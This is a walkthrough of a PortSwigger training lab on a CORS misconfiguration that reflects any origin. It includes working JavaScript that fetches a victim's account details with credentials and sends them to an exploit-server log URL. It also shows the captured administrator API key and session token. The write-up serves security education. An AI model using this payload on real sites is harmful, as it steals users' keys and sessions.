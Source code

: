 # CORS vulnerability with basic origin reflection

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login in using userid and password and check history in burpsuite
you will notice accountdetails response showing

![[lab1_account_details.png]]

### step2

Access-Control-Allow-Credentials : true

send to repeater and add origin: https://example.com for testing

![[lab1_add_origin_url.png]]

### step3

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open("get", "YOUR-LAB-ID.web-security-academy.net/accountDetails", true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

change with the lab details

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://0aa200c203d73c52802a2139008c0038.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://exploit-0a5c001703f73caf800d20a1017a00b7.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

deliver to the victim
in ./log url

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3%22,%20%20%22sessions%22:%20[%20%20%20%20%22uKHzK96F8cHvJMn5pKYbqCcQWbabkilK%22%20%20]
```

decode using burpsuite

```javascript
  "username": "administrator",  "email": "",  "apikey": "rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3",  "sessions": [    "uKHzK96F8cHvJMn5pKYbqCcQWbabkilK"  ]
```

submit apikey
